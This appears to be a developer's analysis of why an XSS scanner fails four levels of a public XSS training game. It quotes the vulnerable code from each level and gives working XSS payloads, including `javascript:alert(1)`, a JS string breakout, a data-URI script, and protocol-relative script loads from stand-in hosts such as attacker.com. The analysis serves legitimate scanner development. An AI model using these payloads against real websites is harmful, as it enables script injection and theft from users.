

# Xbow XSS Game Bottleneck Analysis

## Summary

After reviewing the full Xbow pipeline and all 6 XSS game levels, I identified **5 fundamental gaps** in the scanner that explain why it only works on levels 1-2 and fails on levels 3-6. The core issue is that the scanner is **query-parameter-centric** — it only knows how to inject payloads via URL query params (`?param=payload`) or POST body fields, but levels 3-6 require **fragment-based injection**, **attribute context breakout**, **JavaScript URI injection**, and **dynamic script source manipulation**.

---

## Per-Level Breakdown

### ✅ Level 1 — Reflected XSS (Works)
**Vulnerability:** Input from query param `query` is reflected directly into HTML body unsanitized.
**Why Xbow works:** Standard reflected XSS via query param — the core pipeline (inject → reflect → verify) handles this perfectly.

### ✅ Level 2 — Stored XSS (Works)
**Vulnerability:** User posts are stored and rendered via `innerHTML`. Simple `<script>` tags are filtered but `` works.
**Why Xbow works:** The stored XSS sub-pipeline + browser-based form submission handles this via Playwright form filling.

---

### ❌ Level 3 — DOM-Based XSS via URL Hash Fragment
**Vulnerability:** `location.hash` → `chooseTab()` → jQuery `.html()` (equivalent to `innerHTML`)

```javascript
// The vulnerable code:
html += "";
$('#tabContent').html(html);

// Called with:
chooseTab(unescape(self.location.hash.substr(1)) || "1");
```

**Solution:** `https://xss-game.appspot.com/level3/frame#1' onerror='alert(1)' '`

**Why Xbow fails — 3 bottlenecks:**

| # | Bottleneck | Detail |
|---|-----------|--------|
| 1 | **No fragment injection in fuzzer** | [http_sender.py](file:///home/moon/projects/Xbow/modules/fuzzer-module/http_sender.py) only injects via query params (GET `?param=val`) or POST body. The `FRAGMENT_PARAM` (`__fragment__`) is defined but only used in [_inject_param_get()](file:///home/moon/projects/Xbow/modules/fuzzer-module/http_sender.py#322-332) — and the scan processor never creates payloads targeting `__fragment__` for this URL because the crawler/context module don't discover it as a target. |
| 2 | **DOM scanner sees sink but can't exploit** | [dom_xss_scanner.py](file:///home/moon/projects/Xbow/modules/fuzzer-module/dom_xss_scanner.py) correctly identifies jQuery `.html()` as a DOM sink and `location.hash` as a tainted source, but it only reports a static finding — it never generates or tests an **actual exploit payload** that breaks out of the `` context. |
| 3 | **No browser-based DOM XSS verification** | [browser_verifier.py](file:///home/moon/projects/Xbow/modules/fuzzer-module/browser_verifier.py) constructs URLs with [_inject_param()](file:///home/moon/projects/Xbow/modules/fuzzer-module/browser_verifier.py#607-617) (query params only). For hash-based DOM XSS, the verifier would need to navigate to `url#payload` and check for `alert()` — this path doesn't exist. |

---

### ❌ Level 4 — Server-Side Injection into JS Event Handler
**Vulnerability:** The `timer` query param is reflected into an `onload` attribute:

```html

```

**Solution:** `timer=');alert('1` → produces `onload="startTimer('');alert('1');"`

**Why Xbow fails — 2 bottlenecks:**

| # | Bottleneck | Detail |
|---|-----------|--------|
| 1 | **Context module misclassifies** | The `timer` param is reflected inside a **JavaScript string within an HTML attribute** (`onload="startTimer('3')"`). This is a `js_string_in_attribute` context requiring `');` to break out. The context module ([reflection_analyzer.py](file:///home/moon/projects/Xbow/modules/context-module/reflection_analyzer.py) + [html_parser.py](file:///home/moon/projects/Xbow/modules/context-module/html_parser.py)) likely classifies this as `attribute` and generates attribute-breakout payloads (e.g., `" onmouseover=alert(1)`) instead of JS-string-breakout payloads (`');alert(1)//`). |
| 2 | **Payload generator lacks JS-in-attribute context** | The payload generator (`payload-gen-module`) doesn't have a dedicated `js_attribute` or `js_string_in_event_handler` context type. This means it can't generate the specific breakout pattern `');alert('xss` that's needed. |

---

### ❌ Level 5 — JavaScript URI in `href` Attribute
**Vulnerability:** The `next` query param is reflected into an anchor tag's `href`:

```html
<a href="{{ next }}">Next >></a>
```

**Solution:** `?next=javascript:alert(1)` → `<a href="javascript:alert(1)">Next >></a>`

**Why Xbow fails — 2 bottlenecks:**

| # | Bottleneck | Detail |
|---|-----------|--------|
| 1 | **No `javascript:` URI payload generation** | The payload generator doesn't generate `javascript:` URI payloads for `href` attribute contexts. When the context is `attribute` and the reflected param ends up in an `href`, the correct attack is a `javascript:` pseudo-protocol — not an HTML attribute breakout. |
| 2 | **Browser verifier doesn't click links** | Even if a `javascript:alert(1)` payload were injected into the `href`, the browser verifier navigates to the URL but doesn't **click the link** to trigger execution. The [_attempt_user_interactions()](file:///home/moon/projects/Xbow/modules/fuzzer-module/browser_verifier.py#290-363) function does click `javascript:` links, but only when the **payload itself** contains `javascript:` — and the reflection check gates whether payloads reach the browser verifier at all. Since `javascript:alert(1)` reflects exactly but isn't an HTML injection, the classification may miss it. |

---

### ❌ Level 6 — Dynamic Script Loading via Hash Fragment
**Vulnerability:** `location.hash` → `includeGadget()` → `createElement('script').src = url`

```javascript
function includeGadget(url) {
  if (url.match(/^https?:\/\//)) { return; } // blocks http/https
  scriptEl.src = url;
  document.head.appendChild(scriptEl);
}
function getGadgetName() { 
  return window.location.hash.substr(1) || "/static/gadget.js";
}
includeGadget(getGadgetName());
```

**Solution:** `#data:text/javascript,alert(1)` or `#//attacker.com/evil.js` (protocol-relative, bypasses `http://` check)

**Why Xbow fails — 3 bottlenecks:**

| # | Bottleneck | Detail |
|---|-----------|--------|
| 1 | **No fragment-based payload delivery** | Same as Level 3 — the scanner has no mechanism to inject payloads via `#fragment`. |
| 2 | **No filter bypass intelligence** | The `includeGadget()` function filters `^https?://` but allows `data:`, `//`, `HTTPS://` (case-sensitive bypass). The scanner has no logic to analyze JavaScript filter patterns and generate bypass payloads. |
| 3 | **No `data:` URI or external script payloads** | The payload bank doesn't include `data:text/javascript,alert(1)` or protocol-relative URL payloads — these are fundamentally different from standard `<script>` or event-handler XSS. |

---

## Root Cause Summary



## The 5 Fundamental Gaps

| # | Gap | Levels Affected | Description |
|---|-----|----------------|-------------|
| **1** | **Fragment injection** | 3, 6 | No mechanism to deliver payloads via `#hash` — the scanner only uses query params and POST bodies |
| **2** | **JS-in-attribute context** | 4 | Context module doesn't distinguish "reflected inside JS string inside HTML event handler" from plain attribute context |
| **3** | **JavaScript URI payloads** | 5 | Payload generator doesn't create `javascript:` pseudo-protocol payloads for `href`/`src` attribute injection |
| **4** | **Data URI / protocol-relative payloads** | 6 | No `data:text/javascript,...` or `//evil.com/xss.js` payloads for script source manipulation |
| **5** | **Filter bypass analysis** | 6 | Scanner doesn't analyze JavaScript-level input filters to generate bypass strategies (case sensitivity, protocol-relative, data URIs) |

## What Needs to Change (High Level)

1. **Add fragment param discovery + injection** — the crawler/context module should detect when JS reads `location.hash` and auto-create a `__fragment__` param; the HTTP sender and browser verifier should support `#payload` URL construction.

2. **Add JS-in-event-handler context detection** — when a reflection appears inside `onload="startTimer('REFLECTED')"`, classify it as `js_string_in_attribute` and generate `');alert(1)//` style breakouts.

3. **Expand payload bank with new categories:**
   - `javascript:alert(1)` for href/src attribute injection
   - `data:text/javascript,alert(1)` for script source manipulation
   - `//attacker.com/xss.js` protocol-relative URLs
   - `');alert(1)//` JS string breakout patterns

4. **Browser verifier needs fragment + interaction support** — navigate to `url#payload`, click `javascript:` links, and detect `alert()` from all these vectors.

5. **Add filter-aware bypass generation** — analyze client-side JS filters (regex patterns, string checks) and generate payloads that evade them (case variation, protocol-relative, encoding tricks).
